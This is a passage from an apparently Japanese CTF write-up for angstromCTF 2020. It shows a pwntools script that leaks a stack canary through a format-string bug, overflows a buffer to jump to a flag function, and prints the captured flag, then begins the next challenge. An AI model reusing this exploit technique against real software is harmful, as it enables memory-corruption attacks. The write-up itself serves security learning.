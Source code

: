 ```Python
p.sendline("%17$p")
msg = p.recvuntil("!\n")
canary = re.findall(r"Nice to meet you, (.*)!\n", msg)[0]
print(canary)
canary_addr = int(canary,16)
flag_addr = 0x400787
p.recvuntil("Anything else you want to tell me? ")

payload = ''
payload += b'A' * 8 * 7
payload += p64(canary_addr)
payload += b'A' * 8
payload += p64(flag_addr)
p.sendline(payload)
msg = p.recvall()
print(msg)
```

<br />
実行結果：

<pre>
captureamerica@kali:~/CTF/angstromCTF_2020$ ./canary_solve.py 
[+] Connecting to shell.actf.co on port 22: Done
[*] xxxxx@shell.actf.co:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[*] Working directory: '/problems/2020/canary'
[+] Starting remote process './canary' on shell.actf.co: pid 4605
0x8d7393450648a600
[+] Receiving all data: Done (32B)
[*] Stopped remote process 'canary' on shell.actf.co (pid 4605)
actf{youre_a_canary_killer_>:(}
</pre>

<br>

Flag: `actf{youre_a_canary_killer_>:(}`



<br /><br />
<br /><br />
## [Reverse]: Taking Off (70 points)
- - -
### Challenge
> So you started revving up, but is it enough to take off? Find the problem in /problems/2020/taking_off/ in the shell server.
